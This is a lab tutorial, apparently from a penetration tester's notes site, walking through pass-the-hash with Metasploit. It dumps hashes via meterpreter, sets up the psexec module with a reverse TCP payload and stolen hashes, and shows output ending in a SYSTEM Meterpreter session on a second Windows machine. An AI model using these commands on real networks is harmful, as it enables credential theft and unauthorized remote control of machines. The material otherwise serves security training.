


# PsExec for Pass-the-Hash

## Introduction

The psexec module is a frequently utilized tool in the arsenal of penetration testers, serving as a means to gain access to a targeted system when credentials are already known. Originally developed by Sysinternals, this module has been seamlessly integrated into various frameworks. In many penetration testing scenarios, initial access to a system is achieved through exploits, leveraging tools like Meterpreter to extract passwords or employing techniques such as fgdump, pwdump, or cachedump. Subsequently, penetration testers often employ rainbow tables to crack hashed passwords obtained during these operations.

In this context, the Meterpreter's PSEXEC module becomes a valuable asset for authentication into another machine using a pass-the-hash technique. By leveraging this module, penetration testers can efficiently utilize hashed credentials, acquired through previous steps, to establish unauthorized access to the targeted system. 

## Step-by-Step Guide

### Setup

#### 1. Setup two windows machines with the same user name and password

For this, both machine has an account named *'user'* with *'password'* as password.

#### 2. Establish meterpreter connection to the first machine.

On this instance, a meterpreter binary was used.

How-To: [Creating a Meterpreter Binary](../meterpreter_binary_creation/how-to.html)

### Exploitation

#### 1. Dump the hashes using the meterpreter session on the first machine.

Using 'hashdump' module:

```bash
meterpreter > hashdump
```

Note: You may need to elevate your privilege using *'GETSYSTEM'* to successfully dump the hashes.



#### 2. Use Meterpreter's PsExec module for Pass-the-Hash

Set the required options:

```bash
msf6 > use exploit/windows/smb/psexec # PsExec module
msf6 exploit(windows/smb/psexec) > set payload <PAYLOAD> # your chosen payload
msf6 exploit(windows/smb/psexec) > set RHOST <TARGET HOST> # IP of the second machine
msf6 exploit(windows/smb/psexec) > set LHOST <LISTENING IP> # your local IP
msf6 exploit(windows/smb/psexec) > set LPORT <LISTENING PORT> # your chosen port
msf6 exploit(windows/smb/psexec) > set SMBUser <TARGET USER> # target user from hashdump
msf6 exploit(windows/smb/psexec) > set SMBPass <TARGET PASSWORD HASH> # target user's password from hashdump
```

Sample: Using the *'user'* information from the hashdump:




#### 3. Run the exploit and take over the second machine.

```bash
msf6 exploit(windows/smb/psexec) > exploit

[*] Started reverse TCP handler on 192.168.152.132:8888 
[*] 192.168.152.154:445 - Connecting to the server...
[*] 192.168.152.154:445 - Authenticating to 192.168.152.154:445 as user 'user'...
[*] 192.168.152.154:445 - Selecting PowerShell target
[*] 192.168.152.154:445 - Executing the payload...
[+] 192.168.152.154:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175686 bytes) to 192.168.152.154
[*] Meterpreter session 2 opened (192.168.152.132:8888 -> 192.168.152.154:49174) at 2024-02-02 11:49:11 +1100

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

## Video Demonstration

[](https://www.youtube.com/embed/aJ3ey8L2p3E)

## Reference
https://www.offsec.com/metasploit-unleashed/psexec-pass-hash/